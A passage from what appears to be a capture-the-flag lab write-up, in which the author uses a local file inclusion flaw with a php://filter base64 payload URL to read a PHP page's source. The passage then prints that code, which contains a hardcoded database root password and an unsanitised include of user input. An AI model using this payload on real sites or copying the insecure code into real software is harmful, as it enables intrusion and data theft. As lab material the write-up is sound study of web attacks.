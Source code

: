 The user files was not found. But yash was using their username as password. I used those credentials to log to the application. But that didn't give me anything more. I tried it to connect through SSH, but it failed.

Next, I used the LFI vulnerability to read the PHP files has base64. I couldn't include them like I did with the other files, because the PHP code would be executed and I would get the result of the execution, not the source code. But I was able to use PHP stream filters to get the code as base64.

Going to [http://target.thm/detail.php?page=php://filter/convert.base64-encode/resource=detail.php](http://target.thm/detail.php?page=php://filter/convert.base64-encode/resource=detail.php) gave me a long string, that I saved to a file and decoded to get the original code. 

```bash
$ cat detail.b64 | base64 -d > detail.php 
```

```php
<?php
$con=mysqli_connect("localhost","root","myrootpass","db");
session_start();
if(isset($_SESSION['IS_LOGIN']))
{
$is_admin=$_SESSION['isadmin'];
echo "<h2 style='color:Tomato;margin-left:100px;margin-top:-80px'>Find out who you are :) </h2>";
echo "<br><br><br>";
if($is_admin==="true")
{
echo '<div style="align:center;" class="divf">';
echo '<form class="box" method="POST" style="text-align:center">';
echo '<input required AUTOCOMPLETE="OFF" style="text-align:center;" type="text" placeholder="user" name="name"><br><br>';
echo '<input type="submit" value="whoami" name="sub">';
echo '</form>';
echo '</div>';
if(isset($_GET["page"]))
{
		$page=$_GET["page"];
		$file = str_replace(array( "../", "..\"" ), "", $page );
		echo $file;
		include($file);
}
$formuser=mysqli_real_escape_string($con,$_POST['name']);
if(isset($_POST['sub']))
	{
		$sql="select * from user where username='$formuser'";
                $details = mysqli_fetch_assoc(mysqli_query($con,$sql));
		$det=json_encode($details);
		echo "<pre style='color:red;font-size:14px'>$det</pre>";
		$msg="Details are saved in a file";
		echo "<script>alert('details saved in a file')</script>";
	}
}
else
{
echo "<h3 style='color:red;text-align:center'>You can't access this feature!'</h3>";
}
}
else
{
header('Location: index.php');
}

?>
```
